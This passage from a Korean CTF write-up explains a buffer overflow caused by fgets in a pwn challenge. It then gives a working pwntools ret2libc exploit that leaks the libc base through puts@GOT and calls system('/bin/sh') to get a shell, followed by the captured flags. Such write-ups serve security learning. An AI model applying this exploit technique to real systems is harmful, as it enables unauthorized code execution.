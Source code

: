 ```fges()```로 0x20000 바이트까지 받을 수 있는데 이 때 Overflow가 생긴다.  마땅히 입력받을 수가 없기 때문에 기본적인 ROP로는 풀 수가 없고, Libc base를 leak해서 system 함수를 실행시키면 된다. 

    p.sendline('3')

    payload = "A" * 0x40
    payload += "B" * 4
    payload += p32(e.plt['puts'])
    payload += p32(pr)
    payload += p32(e.got['puts'])

    payload += p32(0x080486E0)

    p.sendline(payload)
    p.recvuntil("Good bye~~!\n")

    puts_got = u32(p.recv(4))
    libc_base = puts_got - libc.symbols['puts']
    system = libc_base + libc.symbols['system']
    binsh = libc_base + next(libc.search('/bin/sh\x00'))

    p.recvuntil("tell me your impression plz!\n")

    payload = "A" * 0x40
    payload += "B" * 4
    payload += p32(system)
    payload += "AAAA"
    payload += p32(binsh)

    p.sendline(payload)

    log.success("puts@got : {0}".format(hex(puts_got)))
    log.success("leaked libc base : {0}".format(hex(libc_base)))
    log.success("system@got : {}".format(hex(system)))
    log.success("/bin/sh : {0}".format(hex(binsh)))

    p.interactive()

if __name__ == '__main__':
    main()

```

[*] flag : ```LAYER7{1_r3411y_H4t3_t41m0_^______^}```



## Misc

### Sanity Check

[*] flag : ```LAYER7{1_h0pE_Y0u_eNj0y_p14yiNg!}```

